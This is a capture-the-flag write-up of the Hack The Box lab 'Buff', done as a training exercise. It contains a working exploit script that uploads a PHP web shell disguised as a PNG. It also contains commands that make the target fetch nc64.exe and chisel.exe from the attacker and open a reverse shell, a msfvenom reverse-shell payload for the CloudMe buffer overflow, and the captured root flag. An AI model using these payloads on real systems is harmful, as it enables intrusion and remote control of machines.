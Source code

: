 ## Buff 

### Lab Details 

- Difficulty: Easy
- Type: Web App, Web Exploit, Buffer Overflow, Priv Esc, Windows

#### Tasks
Q1: On which TCP port is Buff hosting a website?
- `nmap -sT -T4 -vv -A -p- -oA Buff 10.10.10.198`
- port 8080 is running HTTP from outputs of the nmap file
```
<snip>
8080/tcp open  http       syn-ack Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
|_http-title: mrb3n's Bro Hut
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
<snip>
```


Q2: Which framework is the website using? (Three words, no version)
- framework info can be found on http://10.10.10.198:8080/contact.php
- use curl to confirm `curl http://10.10.10.198:8080/contact.php` 
```
<snip>
<li>
<b><i>mrb3n's Bro Hut</i></b>
<li>
Made using Gym Management Software 1.0
</ul>
<snip>
```

Q3: Which user is the website running as?
- there are multiple POCs available which allows us to gain a webshell to the target however the ones ive tried does not provide a stable connection or perform the functions as expected.
- e.g. https://github.com/Zeop-CyberSec/gym_mgmt_system_unauth_rce/blob/master/gym_mgmt_system_unauth_rce.rb
- AND e.g. https://www.exploit-db.com/exploits/48506
- resolution: introduce a simple web shell
- went back and editted 48506.py to enable a simpler webshell, per below
```
import requests, sys, urllib, re
from colorama import Fore, Back, Style
requests.packages.urllib3.disable_warnings(requests.packages.urllib3.exceptions.InsecureRequestWarning)

def webshell(SERVER_URL, session):
    try:
        WEB_SHELL = SERVER_URL+'upload/kamehameha.php'
        getdir  = {'telepathy': 'echo %CD%'}
        r2 = session.get(WEB_SHELL, params=getdir, verify=False)
        status = r2.status_code
        if status != 200:
            print Style.BRIGHT+Fore.RED+"[!] "+Fore.RESET+"Could not connect to the webshell."+Style.RESET_ALL
            r2.raise_for_status()
        print(Fore.GREEN+'[+] '+Fore.RESET+'Successfully connected to webshell.')
        cwd = re.findall('[CDEF].*', r2.text)
        cwd = cwd[0]+"> "
        term = Style.BRIGHT+Fore.GREEN+cwd+Fore.RESET
        while True:
            thought = raw_input(term)
            command = {'telepathy': thought}
            r2 = requests.get(WEB_SHELL, params=command, verify=False)
            status = r2.status_code
            if status != 200:
                r2.raise_for_status()
            response2 = r2.text
            print(response2)
    except:
        print("\r\nExiting.")
        sys.exit(-1)

def formatHelp(STRING):
    return Style.BRIGHT+Fore.RED+STRING+Fore.RESET

def header():
    BL   = Style.BRIGHT+Fore.GREEN
    RS   = Style.RESET_ALL
    FR   = Fore.RESET
    SIG  = BL+'            /\\\n'+RS
    SIG += Fore.YELLOW+'/vvvvvvvvvvvv '+BL+'\\'+FR+'--------------------------------------,\n'
    SIG += Fore.YELLOW+'`^^^^^^^^^^^^'+BL+' /'+FR+'============'+Fore.RED+'BOKU'+FR+'====================="\n'
    SIG += BL+'            \/'+RS+'\n'
    return SIG

if __name__ == "__main__":
    print header();
    if len(sys.argv) != 2:
        print formatHelp("(+) Usage:\t python %s <WEBAPP_URL>" % sys.argv[0])
        print formatHelp("(+) Example:\t python %s 'https://10.0.0.3:443/gym/'" % sys.argv[0])
        sys.exit(-1)
    SERVER_URL = sys.argv[1]
    UPLOAD_DIR = 'upload.php?id=kamehameha'
    UPLOAD_URL = SERVER_URL + UPLOAD_DIR
    s = requests.Session()
    s.get(SERVER_URL, verify=False)
    PNG_magicBytes = '\x89\x50\x4e\x47\x0d\x0a\x1a'
    png     = {
                'file':
                  (
                    'kaio-ken.php.png',
                    PNG_magicBytes+'\n'+'<?php echo shell_exec($_GET["cmd"]); ?>',
                    'image/png',
                    {'Content-Disposition': 'form-data'}
                  )
              }
    fdata   = {'pupload': 'upload'}
    r1 = s.post(url=UPLOAD_URL, files=png, data=fdata, verify=False)
   # webshell(SERVER_URL, s)
```
- commented out the execution of webshell function and modified the png dictionary to  `cmd`
- to run commands use below
`http://10.10.10.198:8080/upload/kamehameha.php?cmd=whoami`
- can use this to fetch tools and execute reverse shell
`http://10.10.10.198:8080/upload/kamehameha.php?cmd=curl%20-O%20http://10.10.14.27:8000/nc64.exe`
`http://10.10.10.198:8080/upload/kamehameha.php?cmd=nc64.exe%2010.10.14.27%204444%20-e%20cmd` -> generates an interactive shell
```
C:\xampp\htdocs\gym\upload>whoami
whoami
buff\shaun
```
Q5: What is the name of an interesting binary inside the shaun user's home directory?
- `dir C:\Users\shaun\Downloads` -> CloudMe_112.exe

Q6: Which localhost port is the above binary listening on?
- `netstat -ano | findstr LISTENING`
```
C:\xampp\htdocs\gym\upload>netstat -ano | findstr LISTENING
netstat -ano | findstr LISTENING
<snip>
  TCP    127.0.0.1:8888         0.0.0.0:0              LISTENING       4552
<snip>
```
Q7: What version of CloudMe has a buffer overflow vulnerability?
- use searchsploit to find POC for its vulnerability
```
$: searchsploit cloudme 11                
--------------------------------------------------------------- ---------------------------------
 Exploit Title                                                 |  Path
--------------------------------------------------------------- ---------------------------------
CloudMe 1.11.2 - Buffer Overflow (PoC)                         | windows/remote/48389.py
```

Q8: Submit the flag located on the administrator's desktop.
- since the application is listening internally we will need to forward the portto our attack host so we can access the remote port locally
- to do that will need tools like chisel or ligolo-ng
- chisel is easier for port fowarding on a single target
- setup to gain root as below
```
#1. set up python3 -m http.server to server tools 
 - we need nc64.exe for reverse shell and chisel.exe for port forwarding
http://10.10.10.198:8080/upload/kamehameha.php?cmd=curl%20-O%20http://10.10.14.27:8000/chisel.exe
http://10.10.10.198:8080/upload/kamehameha.php?cmd=curl%20-O%20http://10.10.14.27:8000/nc64.exe
`http://10.10.10.198:8080/upload/kamehameha.php?cmd=nc64.exe%2010.10.14.27%204444%20-e%20cmd`

#2. set up chisel
# On attacker, using port 9050 on target to receive the connection from remote
./chisel server --reverse --port 9050

# On target, running chisel as client connecting to attacker at port 9050
# fowarding port 8888
C:\xampp\htdocs\gym\upload>chisel.exe client 10.10.14.27:9050 R:8888:127.0.0.1:8888

#3. since CloudMe has a buffer overflow vulnerability we need to create a payload to inject along with buffer
# using msfvenom to generate the payload
$: msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.14.27 LPORT=9999 -f python -b "\x00\x0d\x0a" EXITFUNC=thread --smallest

#4. update POC , replace the existing buf with the msfvenom generate payload

#5. set up listener and run the POC
# listener on attacker 
$: rlwrap nc -lvnp 9999
listening on [any] 9999 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.198] 49683
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>type C:\Users\Administrator\Desktop\root.txt

type C:\Users\Administrator\Desktop\root.txt
ba8420b682467266b8283f5a4f34036f

# running the POC, note the POC might take sometime before giving the shell
$: python2 PoC_exploit_Win10_x64.py
 [+] Payload with 2000 bytes sent!
```

#### Lesson Learned
- web shell workings
- buffer overflow practice

